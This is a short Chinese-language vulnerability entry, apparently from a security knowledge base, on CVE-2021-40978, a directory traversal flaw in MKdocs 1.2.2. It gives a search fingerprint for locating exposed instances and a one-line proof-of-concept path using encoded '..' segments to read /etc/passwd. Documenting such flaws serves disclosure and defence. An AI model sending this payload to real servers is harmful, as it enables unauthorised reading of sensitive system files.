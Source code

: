 # MKdocs 任意文件读取漏洞 CVE-2021-40978

## 漏洞描述

MKdocs中存在通过 %2e%2e 来遍历目录，读取敏感文件

## 漏洞影响

<a-checkbox checked>Mkdocs 1.2.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="My Docs"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1635243987958-b04a962a-3cd6-44d6-b422-384fbae3be46.png)

验证POC

```php
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![img](../../../.vuepress/public/img/1635244110624-38dc3b57-ca8d-4fa1-b073-73b059a6d4be.png)